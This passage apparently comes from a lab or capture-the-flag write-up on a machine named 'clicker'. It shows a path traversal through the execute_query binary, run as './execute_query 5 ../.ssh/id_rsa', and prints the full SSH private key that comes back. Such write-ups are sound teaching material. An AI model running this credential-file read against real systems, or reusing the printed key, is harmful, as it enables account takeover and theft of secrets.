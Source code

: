 ```bash
        - 3: Resets the admin password
        - 4: Deletes all users except the admin
www-data@clicker:/opt/manage$
```

This binary file appears to read files from Jack’s home directory. When I execute ./execute_query 1, I can read the create.sql file. Interestingly, when I send ./execute_query 5, it goes to the default case, and it seems like I can manage to read files of my choice.

```bash
www-data@clicker:/opt/manage$ ./execute_query 5 ../.ssh/id_rsa
./execute_query 5 ../.ssh/id_rsa
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
-----BEGIN OPENSSH PRIVATE KEY---
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
-----END OPENSSH PRIVATE KEY---
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '-----BEGIN OPENSSH PRIVATE KEY---
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAA' at line 1
```
